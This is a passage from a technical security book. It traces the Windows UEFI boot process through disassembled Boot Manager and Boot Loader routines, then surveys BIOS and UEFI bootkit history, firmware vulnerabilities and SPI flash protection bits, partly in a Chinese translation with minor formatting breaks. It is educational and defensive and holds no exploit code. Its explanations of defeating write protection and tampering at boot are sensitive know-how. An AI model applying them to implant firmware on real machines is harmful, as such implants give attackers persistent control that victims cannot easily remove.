Figure 14-8 shows the disassembled `EfiEntry` routine. One of its first instructions triggers a call to the function `EfiInitCreateInputParametersEx()`, which converts the `EfiEntry` parameters to the format expected by `bootmgfw.efi`. Inside `EfiInitCreateInputParametersEx()`, a routine called `EfiInitpCreateApplicationEntry()` creates an entry for the `bootmgfw.efi` in the Boot Configuration Data (BCD), a binary storage of configuration parameters for a Windows bootloader. After `EfiInitCreateInputParametersEx()` returns, the `BmMain` routine (highlighted in Figure 14-8) receives control. Note that at this point, to properly access hardware device operations, including any hard drive input and output, and to initialize memory, the Windows Boot Manager must use only EFI services, as the main Windows driver stacks are not yet loaded and thus are unavailable.


*Figure 14-8: Disassembled EfiEntry routine*

##### Reading the Boot Configuration Data

As the next step, `BmMain` calls the following routines:

`BmFwInitializeBootDirectoryPath` Routine used to initialize the boot application’s path (`\\EFI\\Microsoft\\Boot`)

`BmOpenDataStore` Routine used to mount and read the BCD database file (`\\EFI\\Microsoft\\Boot\\BCD`) via UEFI services (disk I/O)

`BmpLaunchBootEntry` **and** `ImgArchEfiStartBootApplication` Routines used to execute boot application (`winload.efi`)

Listing 14-3 shows Boot Configuration Data as output by the standard command line tool `bcdedit.exe`, which is included in all recent versions of Microsoft Windows. The paths to the Windows Boot Manager and Windows Boot Loader modules are marked with ➊ and ➋ respectively.

```
PS C:\WINDOWS\system32> bcdedit

Windows Boot Manager
--------------------
identifier              {bootmgr}
device                  partition=\Device\HarddiskVolume2
➊ path                  \EFI\Microsoft\Boot\bootmgfw.efi
description             Windows Boot Manager
locale                  en-US
inherit                 {globalsettings}
default                 {current}
resumeobject            {c68c4e64-6159-11e8-8512-a4c49440f67c}
displayorder            {current}
toolsdisplayorder       {memdiag}
timeout                 30

Windows Boot Loader
-------------------
identifier              {current}
device                  partition=C:
➋ path                  \WINDOWS\system32\winload.efi
description             Windows 10
locale                  en-US
inherit                 {bootloadersettings}
recoverysequence        {f5b4c688-6159-11e8-81bd-8aecff577cb6}
recoveryenabled         Yes
isolatedcontext         Yes
allowedinmemorysettings 0x15000075
osdevice                partition=C:
systemroot              \WINDOWS
resumeobject            {c68c4e64-6159-11e8-8512-a4c49440f67c}
nx                      OptIn
bootmenupolicy          Standard
```

*Listing 14-3: Output from the bcdedit console command*

The Windows Boot Manager (`bootmgfw.efi`) is also responsible for the boot policy verification and for the initialization of the Code Integrity and Secure Boot components, covered in the following chapters.

At the next stage of the boot process, `bootmgfw.efi` loads and verifies the Windows Boot Loader (`winload.efi`). Before starting to load `winload.efi`, the Windows Boot Manager initializes the memory map for transition to the protected memory mode, which provides both virtual memory and paging. Importantly, it performs this setup via UEFI runtime services rather than directly. This creates a strong layer of abstraction for the OS virtual memory data structures, such as the GDT, which were previously handled by a legacy BIOS in 16-bit assembly code.

##### Transferring Control to Winload

In the final stage of the Windows Boot Manager, the `BmpLaunchBootEntry()` routine loads and executes `winload.efi`, the Windows Boot Loader. Figure 14-9 presents the complete call graph from `EfiEntry()` to `BmpLaunchBootEntry()`, as generated by the Hex-Rays IDA Pro disassembler with the IDAPathFinder script ([`www.devttys0.com/tools/`](http://www.devttys0.com/tools/)).


*Figure 14-9: Call graph flow from EfiEntry() to BmpLaunchBootEntry()*

The control flow preceding the `BmpLaunchBootEntry()` function chooses the right boot entry, based on the values from the BCD store. If Full Volume Encryption (BitLocker) is enabled, the Boot Manager decrypts the system partition before it can transfer control to the Boot Loader. The `BmpLaunchBootEntry()` function followed by `BmpTransferExecution()` checks the boot options and passes execution to `BlImgLoadBootApplication()`, which then calls `ImgArchEfiStartBootApplication()`. The `ImgArchEfiStartBootApplication()` routine is responsible for initializing the protected memory mode for `winload.efi`. After that, control is passed to the function `Archpx64TransferTo64BitApplicationAsm()`, which finalizes the preparation for starting `winload.efi` (Figure 14-10).


*Figure 14-10: Call graph flow from BmpLaunchBootEntry() to Archpx64TransferTo64BitApplicationAsm()*

After this crucial point, all execution flow is transferred to `winload.efi`, which is responsible for loading and initializing the Windows kernel. Prior to this moment, execution happens in the UEFI environment over boot services and operates under the flat physical memory model.

**NOTE**

*If Secure Boot is disabled, malicious code can make any memory modifications at this stage of the boot process, because kernel-mode modules are not yet protected by the Windows Kernel Patch Protection (KPP) technology (also known as PatchGuard). PatchGuard will initialize only in the later steps of the boot process. Once PatchGuard is activated, though, it will make malicious modifications of kernel modules much harder.*

#### The Windows Boot Loader

The Windows Boot Loader performs the following configuration actions:

*   Initializes the kernel debugger if the OS boots in debug mode (including the hypervisor debug mode).
*   Wraps UEFI Boot Services into HAL abstractions for later use by the Windows kernel-mode code and calls Exit Boot Services.
*   Checks the CPU for the Hyper-V hypervisor support features and sets them up if supported.
*   Checks for Virtual Secure Mode (VSM) and DeviceGuard policies (Windows 10 only).
*   Runs integrity checks on the kernel itself and on the Windows components, then transfers control to the kernel.

The Windows Boot Loader starts execution from the `OslMain()` routine, as shown in Listing 14-4, which performs all the previously described actions.

```
__int64 __fastcall OslpMain(__int64 a1)
{
    __int64 v1; // rbx@1
    unsigned int v2; // eax@3
    __int64 v3; //rdx@3
    __int64 v4; //rcx@3
    __int64 v5; //r8@3
    __int64 v6; //rbx@5
    unsigned int v7; // eax@7
    __int64 v8; //rdx@7
    __int64 v9; //rcx@7
    __int64 v10; //rdx@9
    __int64 v11; //rcx@9
    unsigned int v12; // eax@10
    char v14; // [rsp+20h] [rbp-18h]@1
    int v15; // [rsp+2Ch] [rbp-Ch]@1
    char v16; // [rsp+48h] [rbp+10h]@3
    v1 = a1;
    BlArchCpuId(0x80000001, 0i64, &v14);
    if ( !(v15 & 0x100000) )
        BlArchGetCpuVendor();
    v2 = OslPrepareTarget (v1, &v16);
    LODWORD(v5) = v2;
    if ( (v2 & 0x80000000) == 0 && v16 )
    {
        v6 = OslLoaderBlock;
        if ( !BdDebugAfterExitBootServices )
            BlBdStop(v4, v3, v2);
        ➊ v7 = OslFwpKernelSetupPhase1(v6);
        LODWORD(v5) = v7;
        if ( (v7 & 0x80000000) == 0 )
        {
            ArchRestoreProcessorFeatures(v9, v8, v7);
            OslArchHypervisorSetup(1i64, v6);
        ➋ LODWORD(v5) = BlVsmCheckSystemPolicy(1i64);
            if ( (signed int)v5 >= 0 )
            {
                if ( (signed int)OslVsmSetup(1i64, 0xFFFFFFFFi64, v6) >= 0
        ➌ || (v12 = BlVsmCheckSystemPolicy(2i64), v5 = v12, (v12 & 0x80000000) == 0 ) )
                {
                    BlBdStop(v11, v10, v5);
            ➍ OslArchTransferToKernel(v6, OslEntryPoint);
                    while ( 1 )
                        ;
                }
            }
        }
    }
}
```

*Listing 14-4: The decompiled OslMain() function (Windows 10)*

The Windows Boot Loader starts with configuring the kernel memory address space by calling the `OslBuildKernelMemoryMap()` function (Figure 14-11). Next, it prepares for loading the kernel with the call to the `OslFwpKernelSetupPhase1()` function ➊. The `OslFwpKernelSetupPhase1()` function calls `EfiGetMemoryMap()` to get the pointer to the `EFI_BOOT_SERVICE` structure configured earlier, and then stores it in a global variable for future operations from kernel mode, via the HAL services.


*Figure 14-11: Call graph flow from OslMain() to OslBuildKernelMemoryMap()*

After that, the `OslFwpKernelSetupPhase1()` routine calls the EFI function `ExitBootServices()`. This function notifies the operating system that it is about to receive full control; this callback allows for making any last-minute configurations before jumping into the kernel.

The VSM boot policy checks are implemented in the routine `BlVsmCheckSystemPolicy` ➋ ➌, which checks the environment against the Secure Boot policy and reads the UEFI variable `VbsPolicy` into memory, filling the `BlVsmpSystemPolicy` structure in memory.

Finally, execution flow reaches the operating system kernel (which in our case is the `ntoskrnl.exe` image) ➍ via `OslArchTransferToKernel()` (Listing 14-5).


## `OslArchTransferToKernel` 过程分析

```asm
.text:0000000180123C90 OslArchTransferToKernel proc near
.text:0000000180123C90         xor     esi, esi
.text:0000000180123C92         mov     r12, rcx
.text:0000000180123C95         mov     r13, rdx
.text:0000000180123C98         wbinvd
.text:0000000180123C9A         sub     rax, rax
.text:0000000180123C9D         mov     ss, ax
.text:0000000180123CA0         mov     rsp, cs:OslArchKernelStack
.text:0000000180123CA7         lea     rax, OslArchKernelGdt
.text:0000000180123CAE         lea     rcx, OslArchKernelIdt
.text:0000000180123CB5         lgdt    fword ptr [rax]
.text:0000000180123CB8         lidt    fword ptr [rcx]
.text:0000000180123CBB         mov     rax, cr4
.text:0000000180123CBE         or      rax, 680h
.text:0000000180123CC4         mov     cr4, rax
.text:0000000180123CC7         mov     rax, cr0
.text:0000000180123CCA         or      rax, 50020h
.text:0000000180123CD0         mov     cr0, rax
.text:0000000180123CD3         xor     ecx, ecx
.text:0000000180123CD5         mov     cr8, rcx
.text:0000000180123CD9         mov     ecx, 0C0000080h
.text:0000000180123CDE         rdmsr
.text:0000000180123CE0         or      rax, cs:OslArchEferFlags
.text:0000000180123CE7         wrmsr
.text:0000000180123CE9         mov     eax, 40h
.text:0000000180123CEE         ltr     ax
.text:0000000180123CF1         mov     ecx, 2Bh
.text:0000000180123CF6         mov     gs, ecx
.text:0000000180123CF8         assume gs:nothing
.text:0000000180123CF8         mov     rcx, r12
.text:0000000180123CFB         push    rsi
.text:0000000180123CFC         push    10h
.text:0000000180123CFE         push    r13
.text:0000000180123D00         retfq
.text:0000000180123D00 OslArchTransferToKernel endp
```


*Listing 14-5: Disassembled `OslArchTransferToKernel()` function*

This function has been mentioned in previous chapters, because some bootkits (such as Gapz) hook it to insert their own hooks into the kernel image.

#### Security Benefits of UEFI Firmware

As we’ve seen, legacy MBR- and VBR-based bootkits are unable to get control of the UEFI booting scheme, since the bootstrap code they infect is no longer executed in the UEFI boot process flow. Yet the biggest security impact of UEFI is due to its support for Secure Boot technology. Secure Boot changes the rootkit and bootkit infection game, because it prevents attackers from modifying any pre-OS boot components—that is, unless they find a way to bypass Secure Boot.

Moreover, the recent Boot Guard technology released by Intel marks another step in the evolution of Secure Boot. Boot Guard is a hardware-based integrity protection technology that attempts to protect the system even before Secure Boot starts. In a nutshell, Boot Guard allows a platform vendor to install cryptographic keys that maintain the integrity of Secure Boot.

Another recent technology delivered since Intel’s Skylake CPU (a generation of the Intel CPU) release is BIOS Guard, which armors platforms against firmware flash storage modifications. Even if an attacker gains access to flash memory, BIOS Guard can protect it from the installation of a malicious implant, thereby also preventing execution of malicious code at boot time.

These security technologies directly influenced the direction of modern bootkits, forcing malware developers to evolve their approaches in order to contend with these defenses.

### Conclusion

The switch of modern PCs to UEFI firmware since Microsoft Windows 7 was a first step to changing the boot process flow and reshaping the bootkit ecology. The methods that relied on legacy BIOS interrupts for transferring control to malicious code became obsolete, as such structures disappeared from systems booting through UEFI.

Secure Boot technology completely changed the game, because it was no longer possible to directly modify the bootloader components such as `bootmgfw.efi` and `winload.efi`.

Now all boot process flow is trusted and verified from firmware with hardware support. Attackers need to go deeper into firmware to search out and exploit BIOS vulnerabilities to bypass these UEFI security features. Chapter 16 will provide an overview of the modern BIOS vulnerabilities landscape, but first, Chapter 15 will touch upon the evolution of rootkit and bootkit threats in light of firmware attacks.

## 15 CONTEMPORARY UEFI BOOTKITS


These days, it’s rare to catch a new and innovative rootkit or bootkit in the wild. Most malware threats have migrated to user mode because modern security technologies have rendered old rootkits and bootkit methods obsolete. Security methods like Microsoft’s Kernel-Mode Code Signing Policy, PatchGuard, Virtual Secure Mode (VSM), and Device Guard create limitations for kernel-mode code modifications and raise the threshold of complexity for kernel-mode rootkit development.

- 移动到 `UEFI` 系统的转变以及 `Secure Boot` 方案的普及，已经改变了引导程序根套件（bootkit）开发的格局，提高了内核模式根套件和引导程序根套件的开发成本。正如引入内核模式代码签名政策促使恶意软件开发者转向寻找新的引导程序根套件功能，而不是寻找绕过代码签名保护的方法来演变根套件一样，最近的变化促使安全研究人员将注意力转向 BIOS 固件。

- 从攻击者的角度来看，下一步在系统被感染后，将感染点向软件栈更深处移动，在引导代码初始化之后，进入 BIOS（如图 15-1 所示 [Figure 15-1）。BIOS 在启动过程中的硬件初始化阶段开始执行初始硬件设置，这意味着 BIOS 固件层是硬件之前的最后边界。


*Figure 15-1: Development of rootkits and bootkits in response to developments in security*

- BIOS 所需的持久性水平与本书此前讨论的任何内容都截然不同。固件植入可以在操作系统重新安装甚至硬盘更换后继续存活，这意味着根套件感染可能会在受感染硬件的整个生命周期内保持活动。

- 本章专注于 `UEFI` 固件的引导程序根套件感染，因为截至本文撰写时，大多数 x86 平台的系统固件均基于 `UEFI` 规范。在深入现代 `UEFI` 固件感染方法之前，我们将讨论一些传统 BIOS 引导程序根套件，以提供历史视角。

### Historical BIOS Threats Overview

- BIOS 恶意软件一直被认为复杂，而随着现代 BIOS 功能的出现，恶意软件必须与之配合或绕过，这点在当今尤为真实。即使厂商尚未重视，BIOS 恶意软件也有着丰富的历史。我们将详细查看早期的几个 BIOS 恶意软件实例，然后简要列出自首个 BIOS 感染恶意软件 `WinCIH` 以来发现的所有威胁的主要特征。

#### WinCIH, the First Malware to Target BIOS

- 病毒 `WinCIH`，也称为 `Chernobyl`，是公众所知的首个攻击 BIOS 的恶意软件。由台湾学生 `Chen Ing-hau` 开发，于 1998 年在野外被发现，并通过盗版软件迅速传播。`WinCIH` 感染 Microsoft Windows 95 和 98 可执行文件；当受感染文件被执行后，病毒驻留内存并设置文件系统钩子，在访问其他程序时感染它们。这种传播方式使 `WinCIH` 非常有效，但其最具破坏性的部分是试图覆盖受感染机器的闪存 BIOS 芯片内存。

- 毁灭性的 `WinCIH` 荷载被定时在切尔诺贝利核灾难纪念日 — — 4 月 26 日进行。如果闪存 BIOS 覆盖成功，机器将无法启动，除非恢复原始 BIOS。本章资源（[`nostarch.com/rootkits/`](https://nostarch.com/rootkits/)）中提供了作者分发的 `WinCIH` 原始汇编代码下载。

> **NOTE**
>
> 如果您对阅读传统 BIOS 逆向工程和架构感兴趣，我们推荐 Darmawan Mappatutu Salihun（也即 pinczakko）所著的 `BIOS Disassembly Ninjutsu Uncovered` 一书。该电子版可从作者的 GitHub 账户免费下载（[`github.com/pinczakko/BIOS-Disassembly-Ninjutsu-Uncovered`](https://github.com/pinczakko/BIOS-Disassembly-Ninjutsu-Uncovered)）。

#### Mebromi

- 在 `WinCIH` 之后，下一个在野外发现的 BIOS 攻击恶意软件直到 2011 年才出现。它被称为 `Mebromi`，或 `BIOSkit`，针对具有传统 BIOS 的机器。此时，安全研究人员已在会议和电子杂志中发布 BIOS 攻击的概念和证明-of-概念（PoC）。大多数这些想法在实际恶意软件中难以实现，但 BIOS 感染被视为需要长期持久化感染的针对性攻击的有趣理论方向。

- 与实现这些理论技术不同，`Mebromi` 简单利用 BIOS 感染在系统启动时保持 MBR（主引导记录）持续感染。`Mebromi` 能在 MBR 恢复到原始状态或操作系统重新安装后，甚至硬盘更换后，恢复感染；BIOS 部分的感染会保留并重新感染系统的其余部分。

- 在初始阶段，`Mebromi` 利用原始 BIOS 更新软件交付恶意固件更新，具体针对 Award BIOS 系统，当时该厂商是最流行的 BIOS 供应商之一（1998 年被 Phoenix BIOS 收购）。在 `Mebromi` 的存续期间，几乎没有防护措施阻止对传统 BIOS 进行恶意更新。与 `WinCIH` 类似，`Mebromi` 修改 BIOS 更新例程的系统管理中断（SMI）处理程序，以交付修改后的恶意 BIOS 更新。由于缺乏固件签名等措施，感染相对容易；您可以通过本章资源链接（[`nostarch.com/rootkits/`](https://nostarch.com/rootkits/)）自行检查这段经典恶意软件。

> **NOTE**
>
> 如果您想进一步阅读关于 Mebromi 的详细分析，可参考 Zhitao Zhou 的论文 “A New BIOS Rootkit Spreads in China” （[`www.virusbulletin.com/virusbulletin/2011/10/new-bios-rootkit-spreads-china/`](https://www.virusbulletin.com/virusbulletin/2011/10/new-bios-rootkit-spreads-china/)）。

#### An Overview of Other Threats and Counters

- 让我们现在看看 BIOS 威胁的时间线以及安全研究人员的相关活动。正如图 15-2 所示 Figure 15-2，发现 BIOS 根套件和植入的最活跃时期始于 2013 年，并持续至今。


*Figure 15-2: Timeline of BIOS threats*

- 为了给您提供 BIOS 引导程序根套件演进的概览，我们在 Table 15-1 中按时间顺序列出了每个威胁的亮点。左列列出研究人员为演示安全问题而开发的 PoC 引导程序根套件演进；中间列列出在野外发现的真实 BIOS 威胁样本；第三列提供进一步阅读资源。

- 许多这些威胁利用系统管理中断（SMI）处理程序，这些处理程序负责硬件与操作系统之间的接口，并在系统管理模式（SMM）中执行。为本章提供，我们简要描述了最常被利用的 SMI 处理程序漏洞，用于感染 BIOS。我们将在 第 16 章 中更深入讨论不同 UEFI 固件漏洞。

**Table 15-1:** BIOS Rootkits Historical Timeline

| **PoC BIOS bootkit evolution** | **BIOS bootkit threat evolution** | **Further resources** |
| --- | --- | --- |
|  | **WinCIH, 1998**<br>The first known malware that attacked the BIOS from OS |  |
| **APCI rootkit, 2006**<br>The first ACPI-based rootkit (Advanced Configuration and Power Interface), presented at Black Hat by John Heasman |  | “Implementing and Detecting an ACPI BIOS Rootkit,” Black Hat 2006, [`www.blackhat.com/presentations/bh-europe-06/bh-eu-06-Heasman.pdf`](https://www.blackhat.com/presentations/bh-europe-06/bh-eu-06-Heasman.pdf) |
| **PCI OptRom rootkit, 2007**<br>The first Option ROM rootkit for PCI, presented at Black Hat by John Heasman |  | “Implementing and Detecting a PCI Rootkit,” Black Hat 2007, [`www.blackhat.com/presentations/bh-dc-07/Heasman/Paper/bh-dc-07-Heasman-WP.pdf`](https://www.blackhat.com/presentations/bh-dc-07/Heasman/WP.pdf) |
| **IceLord rootkit, 2007**<br>A Chinese BIOS bootkit PoC; the binaries were released publicly on the researcher’s forum |  |  |
| **SMM rootkit, 2007**<br>The first known PoC of an SMM rootkit from Rodrigo Branco, shown at the H2HC conference in Brazil |  | “System Management Mode Hack Using SMM for ‘Other Purposes,’” [`phrack.org/issues/65/7.html`](http://phrack.org/issues/65/7.html) |
| **SMM rootkit, 2008**<br>The second known PoC of an SMM rootkit, shown at Black Hat |  | “SMM Rootkits: A New Breed of OS Independent Malware,” Black Hat 2008, [`dl.acm.org/citation.cfm?id=1460892`](http://dl.acm.org/citation.cfm?id=1460892); see also [`phrack.org/issues/65/7.html`](http://phrack.org/issues/65/7.html) |
| **BIOS patching, 2009**<br>Multiple researchers published papers about BIOS image modifications | **Computrace, 2009**<br>The first known research about reverse engineering, published by Anibal Sacco and Alfredo Ortega | “Deactivate the Rootkit,” Black Hat 2009, [`www.coresecurity.com/corelabs-research/publications/deactivate-rootkit/`](https://www.coresecurity.com/corelabs-research/publications/deactivate-rootkit/) |
|  | **Mebromi, 2011**<br>The first BIOS bootkit detected in the wild, Mebromi uses ideas similar to IceLord | “Mebromi: The First BIOS Rootkit in the Wild,” [`www.webroot.com/blog/2011/09/13/mebromi-the-first-bios-rootkit-in-the-wild/`](https://www.webroot.com/blog/2011/09/13/mebromi-the-first-bios-rootkit-in-the-wild/) |
|  | **Rakshasa, 2012**<br>The PoC of a persistent BIOS rootkit, presented by Jonathan Brossard at Black Hat |  |
|  | **DreamBoot, 2013**<br>The first public PoC of a UEFI bootkit | **BadBIOS, 2013**<br>An alleged persistent BIOS rootkit, reported by Dragos Ruiu | “UEFI and Dreamboot,” HiTB 2013, [`conference.hitb.org/hitbsecconf2013ams/materials/D2T1%20-%20Sebastien%20Kaczmarek%20-%20Dreamboot%20UEFI%20Bootkit.pdf`](https://conference.hitb.org/hitbsecconf2013ams/materials/D2T1%20-%20Sebastien%20Kaczmarek%20-%20Dreamboot%20UEFI%20Bootkit.pdf)<br>“Meet ‘badBIOS,’ the Mysterious Mac and PC Malware That Jumps Airgaps,” [`arstechnica.com/information-technology/2013/10/meet-badbios-the-mysterious-mac-and-pc-malware-that-jumps-airgaps/`](https://arstechnica.com/information-technology/2013/10/meet-badbios-the-mysterious-mac-and-pc-malware-that-jumps-airgaps/) |
|  | **x86 Memory bootkit, 2013**<br>UEFI-based in-memory bootkit PoC |  | “x86 Memory Bootkit,” [`github.com/AaLl86/retroware/tree/master/MemoryBootkit`](https://github.com/AaLl86/retroware/tree/master/MemoryBootkit) |
|  | **Secure Boot bypass from BIOS, 2013**<br>The first bypass of Secure Boot for Microsoft Windows 8 made public |  | “A Tale of One Software Bypass of Windows 8 Secure Boot,” Black Hat 2013, [`c7zero.info/stuff/Windows8SecureBoot_Bulygin-Furtak-Bazhniuk_BHUSA2013.pdf`](http://c7zero.info/stuff/Windows8SecureBoot_Bulygin-Furtak-Bazhniuk_BHUSA2013.pdf) |
|  | **Implementation and implications of a stealth hard drive backdoor, 2013**<br>Jonas Zaddach et al. demonstrate a PoC of a hard drive firmware backdoor |  | “Implementation and implications of a stealth hard drive backdoor,” Annual Computer Security Applications Conference (ACSAC) 2013, [`www.syssec-project.eu/m/page-media/3/acsac13_zaddach.pdf`](http://www.syssec-project.eu/m/page-media/3/acsac13_zaddach.pdf) |
|  | **Darth Venamis, 2014**<br>Rafal Wojtczuk and Corey Kallenberg discovered an S3BootSript vulnerability (VU#976132) | First reports of an allegedly state-sponsored SMM-based implant are published | “VU#976132,” [`www.kb.cert.org/vuls/id/976132/`](https://www.kb.cert.org/vuls/id/976132/) |
|  | **Thunderstrike, 2014**<br>Attack on Apple devices with a malicious Option ROM over the Thunderbolt port, presented by Trammell Hudson at the 31C3 conference |  | “Thunderstrike: EFI Bootkits for Apple MacBooks,” [`events.ccc.de/congress/2014/Fahrplan/events/6128.html`](https://events.ccc.de/congress/2014/Fahrplan/events/6128.html) |
|  | **LightEater, 2015**<br>A UEFI-based rootkit that demonstrates how to expose sensitive information from the memory in firmware, presented by Corey Kallenberg and Xeno Kovah | **Hacking Team rkloader, 2015**<br>The first known commercial-grade UEFI firmware bootkit leak, revealed by Hacking Team rkloader |  |
|  | **SmmBackdoor, 2015**<br>The first public PoC of a UEFI firmware bootkit, released with source code on GitHub |  | “Building Reliable SMM Backdoor for UEFI-Based Platforms,” [`blog.cr4.sh/2015/07/building-reliable-smm-backdoor-for-uefi.html`](http://blog.cr4.sh/2015/07/building-reliable-smm-backdoor-for-uefi.html) |
|  | **Thunderstrike2, 2015**<br>A demonstration of a mixed attack approach using Darth Venamis and Thunderstrike exploits |  | “Thunderstrike 2: Sith Strike—A MacBook Firmware Worm,” Black Hat 2015, [`legbacore.com/Research_files/ts2-blackhat.pdf`](http://legbacore.com/Research_files/ts2-blackhat.pdf) |
|  | **Memory Sinkhole, 2015**<br>A vulnerability that existed in the Advanced Programmable Interrupt Controller (APIC) and could allow an attacker to target the SMM memory area used by the OS, discovered by Christopher Domas; an attacker could exploit this vulnerability to install a rootkit |  | “The Memory Sinkhole,” Black Hat 2015, [`github.com/xoreaxeaxeax/sinkhole/`](https://github.com/xoreaxeaxeax/sinkhole/) |
|  | **Privilege escalation from SMM to VMM, 2015**<br>A group of Intel researchers presented a PoC of privilege escalation from SMM to hypervisor and demonstrated the PoC for exposing memory regions protected by VMM on MS Hyper-V and Xen |  | “Attacking Hypervisors via Firmware and Hardware,” Black Hat 2015, [`2015.zeronights.org/assets/files/10-Matrosov.pdf`](http://2015.zeronights.org/assets/files/10-Matrosov.pdf) |
|  | **PeiBackdoor, 2016**<br>The first publicly released PoC of a UEFI rootkit that operated at the PEI (Pre-EFI Initialization) phase of boot; released with source code on GitHub | **Cisco router-targeting implant, 2016**<br>Reports of an allegedly state-sponsored implant for Cisco router BIOS | “PeiBackdoor,” [`github.com/Cr4sh/PeiBackdoor/`](https://github.com/Cr4sh/PeiBackdoor/) |
|  | **ThinkPwn, 2016**<br>A privilege escalation vulnerability, promoting to SMM; originally discovered on the ThinkPad series of laptops by Dmytro Oleksiuk, also known as Cr4sh |  | “Exploring and Exploiting Lenovo Firmware Secrets,” [`blog.cr4.sh/2016/06/exploring-and-exploiting-lenovo.html`](http://blog.cr4.sh/2016/06/exploring-and-exploiting-lenovo.html) |
|  |  | **MacBook-targeting implant, 2017**<br>Reports of an allegedly state-sponsored UEFI implant targeting Apple laptops |  |
|  |  | **Lojax implant, 2018**<br>UEFI rootkit discovered in the wild by ESET researchers | “LOJAX,” [`www.welivesecurity.com/wp-content/uploads/2018/09/ESET-LoJax.pdf`](https://www.welivesecurity.com/wp-content/uploads/2018/09/ESET-LoJax.pdf) |
| BIOS firmware has always been a challenging target for researchers, due to both lack of information and the difficulty of modifying or instrumenting the BIOS by adding new code to execute during the boot process. But since 2013, we’ve seen a larger effort from the security research community to find new exploits and to demonstrate weaknesses and attacks on recently introduced security features, such as Secure Boot. |  |  |

查看真实 BIOS 恶意软件的演变，你可能会发现，非常少数 BIOS 威胁 PoC 实际上成为了固件基础植入的趋势，大多数仅用于定向攻击。我们在此专注于通过持久化 rootkit 感染 BIOS 的方法，这种 rootkit 不仅能在操作系统重启后生存，还能在除主板以外的任何硬件更动后（如闪存）继续生存。

### 所有硬件都有固件

在我们深入探讨 UEFI rootkit 和引导 kit 之前，先来看看现代 x86 硬件以及不同固件是如何存储在硬件内部的。如今，所有硬件都包含某种固件；即便是笔记本电池也有固件，操作系统会更新该固件以实现对电池参数和使用情况的更精准测量。

> **NOTE**
>
> Charlie Miller 是最早公开关注笔记本电池固件的研究者，他在 Black Hat 2011 发表了题为 “Battery Firmware Hacking” 的演讲（[`media.blackhat.com/bh-us-11/Miller/BH_US_11_Miller_Battery_Firmware_Public_Slides.pdf`](https://media.blackhat.com/bh-us-11/Miller/BH_US_11_Miller_Battery_Firmware_Public_Slides.pdf)）。

每一段固件都是攻击者存储和执行代码的区域，因而也是恶意植入的潜在机会。大多数现代台式机和笔记本电脑拥有以下种类的固件：

*   UEFI 固件（BIOS）
*   管理引擎固件（Intel ME，例如）
*   硬盘固件（HDD/SSD）
*   外设固件（例如网络适配器）
*   显卡固件（GPU）

尽管有诸多表面上的攻击向量，固件攻击在网络犯罪分子中并不常见，他们更倾向于选择能够针对大量受害者的攻击方式。由于固件因系统而异，已知的固件被 compromise 案例大多是针对特定目标的攻击，而非大规模 PoC。

例如，2015 年初，Kaspersky Lab 的研究人员在野外发现了首例硬盘固件植入。Kaspersky 将该恶意软件的作者称为 `Equation Group`，并将其归类为国家级威胁行为体。

据 Kaspersky Lab 称，他们发现的恶意软件能够感染特定硬盘型号，包括许多非常常见的品牌。所有被攻击的硬盘型号在固件更新时均没有身份验证要求，这正是该攻击得以实施的原因。

在该攻击中，硬盘感染模块 `nls933w.dll`（Kaspersky 检测为 `Trojan.Win32.EquationDrug.c`）通过高级技术附件（ATA）存储设备连接命令接口向硬盘传输修改后的固件。通过 ATA 命令，攻击者能够重新编程或更新 HDD/SSD 固件，前提是固件更新仅需弱验证或无需身份验证。此类固件植入位于固件栈的底部，因而极难被检测。

针对固件的恶意软件通常通过在正常操作系统更新过程中的 reflashing 将恶意固件固化来交付固件植入。这意味着主要影响那些不支持固件更新身份验证的硬盘，仅简单写入新固件即可。下面章节我们将聚焦于基于 UEFI 的 rootkit 和植入，但要记住 BIOS 并不是唯一可用于构建持久固件植入的位置。

#### UEFI 固件漏洞

虽然网络上关于现代操作系统各类漏洞的讨论与示例层出不穷，但对 UEFI 固件漏洞的讨论却相对稀少。下面我们列出过去几年公开披露的与 rootkit 相关的固件漏洞类型。大多数为内存破坏和 SMM 调用（SMM callout）漏洞，可在 CPU 处于 SMM 状态时导致任意代码执行。攻击者可利用这些漏洞绕过 BIOS 防护位，实现对 SPI 闪存区域的任意读写。我们将在 第 16 章 中作更详细阐述，以下列举几个具有代表性的亮点：

*   **ThinkPwn (LEN-8324)**：一个针对多个 BIOS 厂商的任意 SMM 代码执行漏洞。该漏洞使攻击者能够关闭闪存写保护并修改平台固件。
*   **Aptiocalypsis (INTEL-SA-00057)**：一个针对 AMI 固件的任意 SMM 代码执行漏洞，攻击者可关闭闪存写保护位并修改平台固件。

上述任意漏洞均可让攻击者在受害者硬件上安装持久化 rootkit 或植入。许多此类漏洞依赖于攻击者能够绕过内存保护位，或这些位未被启用或失效。

#### （不）效果的内存保护位

大多数保护 SPI 闪存免受任意写入的技术均基于 *内存保护位*，这是数十年前由 Intel 引入的较老防御手段。内存保护位是针对低成本 UEFI 硬件（如物联网 IoT 市场）唯一可用的保护机制。若 SMM 漏洞使攻击者获得访问 SMM 并执行任意代码的权限，则攻击者可以修改这些位。我们来更仔细地看这些位：

*   **BIOSWE**：BIOS 写使能位，通常初始为 0，由 SMM 设置为 1 以验证固件或允许固件更新。
*   **BLE**：BIOS 锁使能位，默认应为 1 以防止对 SPI 闪存 BIOS 区域的任意修改。攻击者在拥有 SMM 权限时可修改该位。
*   **SMM_BWP**：SMM BIOS 写保护位，应设为 1 以防止除 SMM 之外的写入 SPI 闪存。2015 年，Corey Kallenberg 与 Rafal Wojtczuk 发现了一个竞争条件漏洞（VU#766164），该漏洞若未正确设置该位，可能导致 BLE 位被禁用。
*   **PRx**：SPI 受保护范围（PR 寄存器 PR0–PR5）并不能保护整个 BIOS 区域免受修改，但可为特定 BIOS 区域配置读写策略。PR 寄存器本身受 SMM 保护，防止任意篡改。若所有安全位已设置且 PR 寄存器配置正确，攻击者修改 SPI 闪存将变得异常困难。

这些安全位在 DXE 阶段（见 第 14 章）完成初始化。感兴趣的读者可在 Intel EDK2 GitHub 仓库中找到平台初始化阶段的示例代码。

#### 检查保护位

我们可以通过 `Chipsec`（由 Intel 安全卓越中心（现称为 IPAS，Intel Product Assurance and Security）开源）来检查 BIOS 保护位是否已启用并生效。Chipsec 将在 第 19 章 从取证角度进行深入分析，但目前我们仅使用其 `bios_wp` 模块（[`github.com/chipsec/chipsec/blob/master/chipsec/modules/common/bios_wp.py`](https://github.com/chipsec/chipsec/blob/master/chipsec/modules/common/bios_wp.py)），该模块读取实际的保护位值并输出 SPI 闪存保护状态，若检测到配置错误则提醒用户。

使用 `bios_wp` 模块的方法是先安装 Chipsec，然后执行以下命令：

```
```


# chipsec_main.py -m common.bios_wp

```
=====================================================================
 Module: BIOS Region Write Protection
=====================================================================

